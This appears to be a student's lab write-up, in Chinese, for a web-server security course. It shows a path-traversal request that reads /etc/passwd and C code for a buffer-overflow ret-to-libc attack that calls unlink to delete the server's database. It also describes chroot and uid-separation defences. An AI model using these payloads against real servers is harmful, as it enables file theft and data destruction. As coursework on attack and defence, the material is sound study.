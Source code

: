 #exercise 1

![](http://i12.tietuku.com/cdb74f9f85e0fa69.png)

#exercise 2

在init_db()函数中添加如下代码即可在数据库中添加address信息
```c
void init_db()
{	
  if(open_db()==SUCCESS){
	  //first call opendb
 //if user table is not exists,this sql could be useful,or useless!!!so wo first drop table user
    char* sql = "CREATE TABLE IF NOT EXISTS user(\
			id INTEGER PRIMARY KEY,	 \
                    	name VARCHAR(50),	 \
                    	passwd VARCHAR(50),	 \
			address VARCHAR(50)      \
        	    )";
//define a string whinch is used to handle db
    
    handle_db(db,sql);//handle
    sqlite3_close(db);//colse db
    
  }	
}
```
![](http://i12.tietuku.com/035ced388c812138.png)
#exercise 3
browswe的请求改成如下即可得到password
```c
char *req ="GET ../../../../../../../etc/passwd HTTP/1.1\r\n\r\n";
```
![](http://i12.tietuku.com/41bd8187932dcba8.png)

#exercise 4
在server.c中添加如下代码，我们可以发现/etc/passwd访问不了了
```c
chroot("/jail");
//改变根目录位 “/jail”
chdir("/");
//改变当前目录位 "/"(此“/”实际为“/jail”)
```

![](http://i12.tietuku.com/faa735ceae60200c.png)

#exercise 4
通过gdb获取unlink的地址，和缓冲区的地址
![](http://i12.tietuku.com/bdfdf0f61c25853e.png)

攻击代码如下
```c
/*
    below show that client send a normal request to the web server
    you should fix the code to realize your attack
  */
  
 int i;
 char attack_req[1080];
 long *retaddr=(long *)attack_req;
 //讲unlink所需要的参数写如栈中
for(i=0;i<1064;i++)
{
	attack_req[i++]='d';
	attack_req[i++]='b';
	attack_req[i++]='/';
	attack_req[i++]='u';
	attack_req[i++]='s';
	attack_req[i++]='e';
	attack_req[i++]='r';
	attack_req[i++]='s';
	attack_req[i++]='.';
	attack_req[i++]='d';
	attack_req[i++]='b';
	attack_req[i]='\0';
}


  retaddr[266]=0xb7ef12e0;//unlink 的地址
  retaddr[268]=0xbfffee94;//unlink 参数的地址
  attack_req[269*4]='\r';
  attack_req[269*4+1]='\n';
  attack_req[269*4+2]='\r';
  attack_req[269*4+3]='\n';
  write(sock_client,attack_req,1080);
```

#exercise 6
因为httpd拥有root权限，所以我们可以通过ret-to-libc删除db文件，我们只需要设置httpd和db为不同的uid
并且使只有文件的拥有者才能操作文件，就可以防止通过httpd来攻击服务器
```c
#fill in your commands here
chown -R 1001:1001 /jail/db #db 属于fivesv
chown -R 1000:1000 /jail/index.html
chmod -R 4711 /jail/
```
并且在service.c中设置fivesv和httpd，banksv的uid
![](http://i12.tietuku.com/9c8595411d72f2e3.png)